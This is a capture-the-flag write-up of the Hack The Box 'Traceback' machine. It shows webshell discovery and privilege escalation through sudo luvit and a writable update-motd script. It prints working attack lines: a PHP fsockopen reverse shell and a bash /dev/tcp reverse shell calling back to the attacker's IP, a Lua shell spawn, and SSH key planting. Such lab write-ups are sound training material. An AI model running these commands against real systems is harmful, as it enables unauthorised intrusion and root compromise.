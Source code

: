 # Traceback

## Enumeration

We start off with a full-port nmap to check running services (most of output truncated)

```bash
$ sudo nmap -sS -n -p- -A -oN full.nmp 10.10.10.181

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
```

We see port 22 with SSH and port 80 with HTTP. Let's check the HTTP.

### HTTP

We're greeted with a strange message:

![The Message](<../../../../.gitbook/assets/image (45).png>)

It seems as if our job is to find the "backdoor" into the system. The source has nothing particularly interesting, except for a comment:

![The Comment](<../../../../.gitbook/assets/image (37).png>)

If we google this comment we come across an interesting [GitHub repo](https://github.com/TheBinitGhimire/Web-Shells) with a collection of reverse shells. Let's put their names in a file called `wordlist.txt` and run `gobuster`:

```
alfa3.php
alfav3.0.1.php
andela.php
bloodsecv4.php
by.php
c99ud.php
cmd.php
configkillerionkros.php
jspshell.jsp
mini.php
obfuscated-punknopass.php
punk-nopass.php
punkholic.php
r57.php
smevk.php
wso2.8.5.php
```

```
$ gobuster dir -u http://10.10.10.181/ -w wordlist.txt -t 50

===============================================================
/smevk.php (Status: 200)
===============================================================
```

It appears as if `smevk.php` is on the target! Let's head over to http://10.10.10.181/smevk.php and we what happens.

![The Webshell](<../../../../.gitbook/assets/image (4).png>)

It definitely exists! The [repo ](https://github.com/TheBinitGhimire/Web-Shells/blob/master/smevk.php)tells us the default credentials are `admin:admin`.

![Yes, it's pretty hideous](<../../../../.gitbook/assets/image (7).png>)

## Foothold

The webshell looks horrible, but we have an `Execute` input where we can run commands. We can now use this to get an actual reverse shell.

First we use `nc` on a terminal to listen for incoming connections:

```
$ nc -nvlp 9001
```

Next we use a [PHP reverse shel](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)l **on the webshell** to redirect execution to it:

```
$ php -r '$sock=fsockopen("10.10.14.21",9001);exec("/bin/sh -i <&3 >&3 2>&3");'
```

We get a connection! This is a fairly bad shell, but we can easily [upgrade it to be useful](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/).

## User

### Enumeration

Now we have a foothold, let's check what's in our user's home directory. It appears to be a file called `note.txt`:

```
webadmin@traceback:/home/webadmin$ ls
note.txt

webadmin@traceback:/home/webadmin$ cat note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

We have been left "a tool to practise Lua". As always, first thing we should do as a new user is **check our permissions.**

```
webadmin@traceback:/home/webadmin$ sudo -l
User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```

We can run `luvit` as `sysadmin`! We can guess that `luvit` is the tool that runs Lua scripts. Because we can run it as `sysadmin`, if we create a Lua script that spawns a shell we will spawn with higher privileges.

### Exploitation

```lua
os.execute("/bin/bash")
```

This is the command we want to run. We can simply use `echo` to create it:

```
webadmin@traceback:/home/webadmin$ echo 'os.execute("/bin/bash")' > privesc.lua
```

Now let's run it as `sysadmin`!

```
$ sudo -u sysadmin /home/sysadmin/luvit privesc.lua
$ whoami
sysadmin
```

{% hint style="info" %}
You could also have done it in one line using the `-e` flag:

`sudo -u sysadmin /home/sysadmin/luvit -e ‘os.execute(“/bin/bash”)’`
{% endhint %}

We can now read `user.txt`!

```
sysadmin@traceback:/home/webadmin$ cat ~/user.txt
895...
```

## Root

Firstly, we want to get a nice SSH shell. We can get this using SSH keys.

### Getting SSH Access

First create the key pair:

```
$ ssh-keygen -f traceback

Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again:
[...]
```

I just hit `Enter`, meaning there's no passphrase. Now `cat traceback.pub` and echo it into `~/.ssh/authorized_keys` - this registers the keypair as valid.

{% hint style="warning" %}
When using `echo` in these scenarios, use `>>` rather than `>`. Using only a single `>` will overwrite all the other contents, essentially erasing any keys owned by other people, which is not a great thing to do.
{% endhint %}

{% hint style="info" %}
If `~/.ssh` doesn't exist already, make sure you create it.
{% endhint %}

```
echo "<public key>" >> ~/.ssh/authorized_keys
```

{% hint style="danger" %}
Make sure you spell it `authorized` not `authorised`!
{% endhint %}

Now we can log in via SSH using

```
ssh -i traceback sysadmin@10.10.10.181
```

### Finding the Vulnerability

To perform some automated privesc recon, I'm going to run [`linpeas`](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite). Port it over by hosting it on a python SimpleHTPServer:

```
$ sudo python3 -m http.server 80
```

The `wget` it on the box:

```
wget 10.10.14.21/linpeas.sh
```

Then `chmod`, run and analyse the output.

Something that **really** sticks out is this:

![GROUP Writeable Files](<../../../../.gitbook/assets/image (44).png>)

These scripts get run **every time someone logs in with SSH**. If we can modify them (which we can), they will run whatever we modify them to. The important part here is [**they get run as root**](http://manpages.ubuntu.com/manpages/xenial/man5/update-motd.5.html).

### Exploitation

So the privesc is simple, but what should we get the file to do? There are a couple types of choices:

* Run something that enables us to get root
* Print the flag

In these situations, if both approaches are equivalently easy, then it's a good idea to go for **the approach that affects the least other users**. Nobody can notice our reverse shell since it's directly to our IP, so it doesn't affect other users.

```bash
echo -e '#!/bin/bash\nbash -i >& /dev/tcp/10.10.14.21/9002 0>&1' > 00-header
```

Make sure you set up an `nc` listener on port 9002 and then log in via SSH again.

```
$ nc -nvlp 9002
```

```
$ ssh -i traceback sysadmin@10.10.10.181
```

And bam, we have a root shell.

```
root@traceback:/# whoami
whoami
root

root@traceback:/# cat /root/root.txt
cat /root/root.txt
e68...
```
